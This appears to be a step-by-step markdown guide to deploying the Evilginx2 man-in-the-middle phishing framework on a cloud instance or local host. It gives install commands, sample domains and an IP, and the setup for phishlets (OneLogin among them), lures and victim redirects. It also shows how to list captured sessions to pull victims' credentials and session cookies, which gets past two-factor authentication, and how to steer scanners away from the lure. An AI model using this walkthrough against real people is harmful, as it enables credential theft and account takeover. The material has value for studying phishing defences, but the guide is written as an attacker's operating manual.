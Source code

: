 

```https://github.com/kgretzky/evilginx2```

```NOTE: You can run EVILGINX2 in a tmux session so that when you quit your ssh connection, the tool keeps on running.```

Commands: https://en.kali.tools/?p=963

### Introduction:

Evilginx2 is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection. 
What is means is Evilginx2 is siting in the communication between our victim and the actual legitimate login page capturing all traffic passed through. This means we can also capture the session cookies and inout them into our own browser allowing us to successfully authenticate ourselves as the victim, when it is time to login with the credentials we have aquired.

### Configuring EvilGinx2 on Cloud:

Install and config Evilginx2 inside the instance you have created (Open a new tab, ssh back into the EC2, and complete the steps to install Evilginx)

* Since go is already installed we can eneter the following commands to set up Evilginx2:
            
```
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
```
            
* If everything was done right you should be able to go ahead and run the program:
            
```sudo ./bin/evilginx -p ./phishlets/```
            
NOTE: Ignore warning - ```[!!!] Failed to start nameserver on port 53```



* Now that evilginx2 is istalled and running it is time to finish setting up the program to exucute the way we want it to (Complete the steps to properly configure evilginx2:):

* Set up the domain you are using (Enter the domain that you are using): 
            
```config domain raymondspizzeria.cf```
            
* Tell evilginx what IP it should be running on (Enter the ip from your ec2 instance):
            
```config ip 44.201.169.181```

***

### Configuring EvilGinx2 on Host:

```
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2                                       
make           
sudo cp bin/evilginx /usr/bin
sudo cp -r phishlets/ /usr/share/evilginx/
sudo cp -r templates /usr/share/evilginx/
sudo evilginx
```

Run evilginx2 and if the phishlets have been loaded successfully you should see the tool run. 

Now you need to edit the config and ``` add your domain and IP and the redirect URL. ```

[ Any scanners scanning your domain without the ```lure parameter``` will automatically get redirected to the "redirect_url" you set up here ]

We also need to setup a TLS Certificate for our domain. the Evilginx tool can handle all that for us. 

ENTER:

``` 
: phishlets hostname therecap
therecap.tk
: phishlets enable therecap
```

***

***

### After installation Set-up:

* We need to choose one of the phishlets that we weant to use and configure it in evilginx:
            
```phishlets hostname <pick one, i like onelogin> <enetr whatever dns we just created>```
            
[ex.] ```phishlets hostname onelogin login.raymondspizzeria.cf```
[output] ```[04:57:58] [inf] disabled phishlet 'onelogin'```
            
* Now we need to enable the phishlet 'onelogin' that we just configured:
            
```phishlets enable onelogin```
            
* Next we need to creates out lures:
            
```lures create onelogin```
            
[output] ```[04:31:37] [inf] created lure with ID: 0```
            
* Next we are going to want to get our actual url for out phish:
            
```lures get-url 0```

[ Now open a new wwbbrowser and test out this new link produced by Evilginx and make sure that it works ! ! ! ]

***

We also need to add the URL the victim will be redirected to AFTER logging in. This is different from the ```config redirect_url``` as that one is for the scanners and unintended users and this one is for the victims post-login. - (The default redirect url is YT rickroll)

```
: lures edit 1 redirect_url
https://www.therecap.org/
[04:46:06] [inf] redirect_url =
'https://www.therecap.org/'
```

Once that is in you can navigate to the lure URL to make sure its works properly.



***

### Tokens and Credentials:

```lures``` -  Shows all current actives lures that are available to be used

```sessions``` - Shows active sessions currently runnings 

```sessions <session_# Here>``` - will display all credentials and cookies captured fromt he session you choose 
